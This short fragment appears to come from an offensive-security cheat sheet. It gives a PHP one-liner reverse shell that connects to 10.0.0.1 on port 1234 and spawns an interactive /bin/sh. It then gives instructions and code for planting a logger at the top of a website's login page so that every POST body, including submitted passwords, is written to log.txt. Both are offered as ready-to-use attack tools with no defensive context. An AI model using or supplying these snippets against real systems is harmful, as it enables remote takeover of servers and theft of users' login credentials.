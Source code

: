 ### Reverse shell in PHP
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## post request logger

You can edit a login page from the webserver which handles post request and user authentication.
Put this post request logger in top so it's will log every post request into *log.txt*
```php
<?php file_put_contents('log.txt', file_get_contents('php://input')); ?>
```
